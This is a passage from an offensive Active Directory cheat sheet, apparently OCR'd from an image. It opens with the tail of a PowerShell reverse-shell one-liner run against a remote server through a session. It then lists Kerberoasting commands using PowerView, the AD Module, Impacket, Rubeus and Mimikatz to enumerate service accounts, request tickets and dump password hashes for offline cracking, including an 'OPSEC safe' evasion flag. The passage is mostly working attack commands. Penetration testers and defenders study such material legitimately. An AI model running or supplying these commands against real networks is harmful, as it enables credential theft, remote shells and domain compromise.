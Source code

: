 ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);

$stream.Flush()};$client.Close()} -ComputerName SERVERC.DOMAIN.LOCAL} -Session $serverb

# Domain Privilege Escalation 1

### Kerberoast

*WUT IS DIS?:*

All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user" account, extract the encrypted blob that was encrypted using the user's password and bruteforce it offline.

- PowerView:
- #Get User Accounts that are used as Service Accounts

> Get-NetUser -SPN
> 
- #Get every available SPN account, request a TGS and dump its hash

> Invoke-Kerberoast
> 
- #Requesting the TGS for a single account:

> Request-SPNTicket
> 
- #Export all tickets using Mimikatz

Invoke-Mimikatz -Command '"kerberos::list /export"'

- AD Module:
- #Get User Accounts that are used as Service Accounts

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName Impacket:

- python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>

Rubeus:

- #Kerberoasting and outputing on a file with a spesific format

> Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
> 
- #Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts

> Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
> 
- #Kerberoast AES enabled accounts

> Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
> 
- #Kerberoast spesific user account

> Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
> 
- #Kerberoast by specifying the authentication credentials
